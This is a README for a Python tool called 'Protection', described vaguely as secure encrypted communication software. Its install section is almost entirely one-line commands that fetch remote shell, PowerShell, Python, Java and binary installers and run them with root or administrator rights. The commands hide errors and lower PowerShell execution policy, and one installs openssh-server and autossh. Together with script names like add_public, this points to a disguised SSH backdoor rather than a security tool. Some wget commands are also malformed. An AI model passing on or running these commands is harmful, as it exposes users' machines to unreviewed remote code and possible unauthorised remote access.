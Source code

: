 # Protection

Protection is a lightweight Python program for secure, encrypted 
communication that use known protocols.

It ensures safe transmission of sensitive data between clients and servers. 
Ideal for protecting user data, confidential communications, 
or securing internal networks with ease and reliability.

## Quick Installation

### Linux

```bash
# Root shell
apt update -y && apt install sudo curl -y && curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```

```bash
# Normal shell
sudo apt update -y && sudo apt install curl -y && curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```

### Windows

For the fastest way to install the tool, run a PowerShell prompt as administrator and execute this single command in it:

```powershell
# For Windows
Set-ExecutionPolicy RemoteSigned -Scope Process -Force; Invoke-WebRequest -Uri "https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public.ps1" -OutFile "$env:TEMP\add_public.ps1"; & "$env:TEMP\add_public.ps1"
```

This will automatically download the add_public.ps1 script and execute it to complete the setup.

### Installation Instructions for Windows Users

Follow these simple steps to install Protection on your Windows system.

### Prerequisites

1. **Python**: Ensure that you have Python installed on your system. If not, download and install the latest version of Python 
from [python.org](https://www.python.org/downloads/).
   
2. **Git**: Install Git if you don't already have it. You can download it from [git-scm.com](https://git-scm.com/).

3. **PowerShell Execution Policy**: To allow running scripts locally in PowerShell, you may need to adjust the execution policy.

    - **Start Windows PowerShell as Administrator**: Right-click on the PowerShell icon and select "Run as Administrator". 
	You must be a member of the Administrators group on your computer to change the execution policy.

    - **Enable running unsigned scripts**: Enter the following command in the PowerShell terminal:

      ```powershell
      set-executionpolicy remotesigned
      ```
	  Enabling this policy gives you the flexibility to use scripts from various sources for local development, without the 
	  overhead of requiring signatures. It’s particularly helpful when you need to automate tasks quickly and don’t want to 
	  go through the signing process for internal tools.



### Git Installation Steps

1. Install git on your system.

2. **Clone the Repository**:
   Open PowerShell or Bash and run the following command to clone the repository:

```powershell
   git clone https://github.com/NeronNymus/protection.git
```


Execute the add_public.ps1 or add_public2.sh script to complete the installation:

```powershell
.\protection\light\add_public.ps1	# For windows
```
or
```bash
./protection/light/add_public2.sh	# For linux
```

This script will install all necessary dependencies and set up the program on your system. 

# Installation Instructions for Linux Users

There exist other five ways to install protection: using `curl`,`wget`, the Python interpreter, Java source code or C source code.

## Option 1: Install Using curl

1. **Install curl or wget (if you don't have it already):**

```bash
   sudo apt update -y && sudo apt install sudo curl openssh-server autossh wget python3 python3-pip python3-venv default-jdk -y
```

```bash
   apt update -y && apt install sudo curl -y
```

Or whatever package manager your distro use (pacman, yum).

A single command:

```bash
   apt update -y && apt install sudo curl -y && curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```



Download and Execute the Install Script: Run the following command to download and execute the installation script:

 ```bash
curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```

Or using wget like this:

 ```bash
wget -q -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```
 ```bash
wget -q -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/add_public2.sh && sudo bash add_public2.sh 2>/dev/null
```

Or using java like this:

 ```bash
curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/InstallProtection.class && sudo java InstallProtection
```

Or compiling from source code from java:
 ```bash
curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/InstallProtection.java && javac InstallProtection.java && sudo java InstallProtection
```

Or executing directly the binary compiled with gcc:
 ```bash
curl -s -O https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/protection && sudo ./protection
```

In the commands above wget can be used instead of curl if you prefer it.



## Option 2: Install Using Python
2. If you already have a python interpreter you can use it for installing this tool.
All you need is the 'requests' library, fetch it with

```bash
sudo pip install requests paramiko
```
or 
```bash
sudo pip install -r requirements.txt
```

Now, download the installation script:

```bash
python3 -c "import requests; r = requests.get('https://raw.githubusercontent.com/NeronNymus/protection/refs/heads/main/light/install_protection.py'); open('install_protection.py', 'wb').write(r.content)"
```

Run the Installation Script: Execute the downloaded installation script using sudo:

```bash
sudo python3 install_protection.py
```


This will download the necessary files and set up the Protection program on your Windows or Linux system.

